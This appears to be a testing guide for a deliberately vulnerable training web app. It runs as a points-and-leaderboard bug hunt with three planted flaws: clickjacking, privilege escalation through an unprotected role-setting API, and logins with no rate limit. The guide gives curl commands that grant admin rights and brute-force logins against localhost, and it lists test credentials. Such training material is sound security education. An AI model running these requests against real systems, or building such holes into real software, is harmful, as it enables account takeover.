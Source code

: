 # Implemented Security Vulnerabilities - Testing Guide

This document provides console commands to test all implemented security vulnerabilities in the Shopfluence application.

## Quick Access URLs
- **Frontend**: http://localhost:8084
- **Backend API**: http://localhost:8000
- **Leaderboard**: http://localhost:8002

## 🚨 Implemented Vulnerabilities

### 1. Clickjacking Exposure (100 pts)
**Console Command:**
```javascript
await window.testClickjacking()
```

**Manual Test:**
1. Open: http://localhost:8082/frame-test.html
2. Click any button in the iframe
3. Bug triggers automatically

---

### 2. Privilege Escalation via API Endpoint (100 pts)
**Console Command:**
```javascript
await window.testPrivilegeEscalation()
```

**Manual Test:**
```bash
# First, get a regular user token by logging in
# Then use this endpoint to escalate privileges:
curl -X POST http://localhost:8000/api/users/set_role/ \
  -H "Authorization: Bearer YOUR_ACCESS_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"role": "admin"}'
```

---

### 3. No Rate Limiting on Login (85 pts) ⭐ **NEW**
**Console Command:**
```javascript
await window.testRateLimiting()
```

**Manual Test:**
1. Go to login page: http://localhost:8084/login
2. Use email: `admin@example.com` (or any valid email)
3. Use wrong password: `wrongpassword123`
4. Submit login form 10+ times rapidly
5. Notice no rate limiting, CAPTCHA, or account lockout

**Automated Test:**
```bash
# Test 12 failed login attempts
for i in {1..12}; do
  curl -X POST http://localhost:8000/api/auth/login/ \
    -H "Content-Type: application/json" \
    -d '{"email": "admin@example.com", "password": "wrong'$i'"}'
done

# Record the bug
curl -X POST http://localhost:8000/api/bugs/rate-limiting/ \
  -H "Content-Type: application/json" \
  -d '{"attempt_count": 12, "email": "admin@example.com"}'
```

---

## 🎯 How Participants Would Discover These

### Discovery Methods:

1. **Browser Console Testing**
   - Open DevTools (F12) → Console
   - Run test functions (window.testClickjacking, window.testPrivilegeEscalation, window.testRateLimiting)
   - All functions are globally available

2. **Manual Security Testing**
   - Try embedding site in iframe (clickjacking)
   - Test API endpoints for privilege escalation
   - Attempt brute force login attacks

3. **API Exploration**
   - Check network requests in DevTools
   - Test authentication endpoints
   - Look for unprotected admin endpoints

### Success Indicators:
✅ Bug notification appears in UI  
✅ Console shows success messages  
✅ Points are awarded  
✅ Leaderboard updates  
✅ Detailed vulnerability info displayed  

## 🛡️ Vulnerability Details

| Bug | Type | Points | Endpoint | Detection Method |
|-----|------|--------|----------|------------------|
| Clickjacking | UI Redressing | 100 | Any page in iframe | iframe detection script |
| Privilege Escalation | Authorization | 100 | `/api/users/set_role/` | Direct API call |
| No Rate Limiting | Authentication | 85 | `/api/auth/login/` | Multiple failed attempts |

## 🔧 Test Environment Setup

**Required Services:**
- Django Backend (port 8000)
- React Frontend (port 8084) 
- Leaderboard Service (port 8002)
- Clickjacking Test Server (port 8082)

**Test Credentials:**
- Email: `admin@example.com` 
- Email: `test@example.com`
- Email: `testuser@example.com`
- Password: Use correct password for privilege escalation test
- Wrong Password: `wrongpassword123` (for rate limiting test)

## 🏆 Expected Results

When bugs are successfully discovered:
1. **Immediate Feedback**: Console logs with detailed info
2. **UI Notification**: Pop-up notification with points earned
3. **Leaderboard Update**: Score reflected in leaderboard system
4. **Detailed Analysis**: Console shows vulnerability impact and details

All vulnerabilities are working correctly and ready for participant testing!
